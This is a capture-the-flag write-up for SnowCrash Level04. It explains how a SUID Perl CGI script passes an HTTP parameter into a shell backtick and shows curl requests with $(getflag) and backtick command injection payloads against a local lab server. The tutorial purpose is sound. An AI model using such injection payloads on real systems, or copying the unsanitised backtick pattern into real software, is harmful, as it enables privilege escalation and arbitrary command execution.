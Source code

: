 # Level04
This time we are given a Perl script

![image](https://github.com/user-attachments/assets/5a276f3c-077c-4f13-b572-df191e644603)

![image](https://github.com/user-attachments/assets/afec7e89-9de1-4216-9479-25f7c7e55e12)

It has the SUID bit set like the last time. So we will try to exploit the priviliges of flag04 somehow. Let's run it,

![image](https://github.com/user-attachments/assets/085d513d-7dc6-4b2c-89ef-8574d0d3f4c1)

What is it trying to achieve exactly? Let's read the file contents:

![image](https://github.com/user-attachments/assets/c888db70-7096-4545-a2ad-dbf77416d8d4)

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
After a crash course in perl [subroutines](https://www.tutorialspoint.com/perl/perl_subroutines.htm) and the [CGI](https://www.perl.com/article/perl-and-cgi/) module we see that we are provided with a neatly vulnerable code.

First let's discuss some syntax. The [qw](https://www.geeksforgeeks.org/perl-qw-operator/)(quote-word) operator in Perl is used to extract each element of the given string as it is in an array of elements in single-quote. For example: qw(Hello world) becomes ('Hello', 'world')

In our case it is used to import a list of functions from the CGI module. This list consists of only one element though...Anyway's the function we imorted is `param` and we will come back to it later

In Perl we can pass various arguments to a subroutine like you do in any other programming language and they can be acessed inside the function using the special array @_. Thus the first argument to the function is in $_[0], the second is in $_[1], and so on.

In our script we have a subroutine called `x`. Within x a variable called `y` is defined. y takes the value of the first argument passed to x, as indicated by `$y = $_[0]` . Then it prints the value of y with echo.

Rest of the stuff requires us to understand the CGI module. 

CGI stands for [Common Gateway Interface](https://datatracker.ietf.org/doc/html/rfc3875), it’s a protocol for executing scripts via web requests, and in the late 1990’s was the main way to write dynamic programs for the Web. It’s also the name of the Perl module that is now deprecated.

The first way to pass data is with the query string, (the portion of a URI beginning with ?), which you see in URLs like `https://example.com/?foo=bar`. This uses the “GET” request method, and becomes available to the program as $ENV->{QUERY_STRING}, which in this case is foo=bar (CGI programs receive their arguments as environment variables). But CGI provides the `param` method which parses the query string into key value pairs, so you can work with them like a hash.

Essentialy we have a script that is able to handle [HTTP requests](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods). Subroutine x is called with the argument `param("x")`, here the `param()` function retrieves the value of parameter x from the HTTP request. And then this value is printed.

Easy enough right? We can start interacting with the script in a meaningful way now. Let's give the server some input to work with.

`level04@SnowCrash:~$ curl http://localhost:4747?x=hello`

![image](https://github.com/user-attachments/assets/58986977-11e9-4d9c-b7c5-f2a7a0597748)

If proper input sanitization is not made this script could be vulnerable to command injections. Since it runs with the priviliges of `flag04` the consequences could be severe. Let's exploit!

Our goal is to run `getflag` as `flag04` somehow. A naive first attempt would be to simply try `level04@SnowCrash:~$ curl http://localhost:4747?x=getflag`

![image](https://github.com/user-attachments/assets/1cb59aef-72ea-4ac6-ad08-f7d02426af4f)

This is the same as running `echo getflag`, it doesn't run `getflag` but simply prints it out as any other string. How do we subsitute commands in shell-scripting? By using **$()** or **backticks**!

![image](https://github.com/user-attachments/assets/ae0eac71-be2a-4d01-b18e-500eac4988ce)

This didn't exactly go as intended because `getflag` was executed as level04 before curl and the resulting string was put as parameters in the URL.

However if I use single quotes everything inside will be taken as literally and no command substitution will happen (at least as far as curl is conerned): `curl 'http://localhost:4747?x=$(getflag)'`

![image](https://github.com/user-attachments/assets/f314e30b-c37a-4d4c-af35-940a683f8e3e)

Yay! But how did this work if single quotes interpert the strings literally? Well that's the vulnerable script's fault. 

```
print `echo $y 2>&1`;
````

becomes,

```
print `echo $(getflag) 2>&1` ;
```

And now getflag will run with the privileges of the user under which the Perl CGI script is executed. Then echo will print out the result.

**Alternatively** we can make use of backticks too:

```
level04@SnowCrash:~$ curl 'http://localhost:4747/level04.pl?x=`getflag`'
```

![image](https://github.com/user-attachments/assets/390db6a7-889b-4a9b-99f1-7a325288c15b)

![image](https://github.com/user-attachments/assets/f252564f-cfb3-4278-976d-06e83465f6b9)

_Fin_
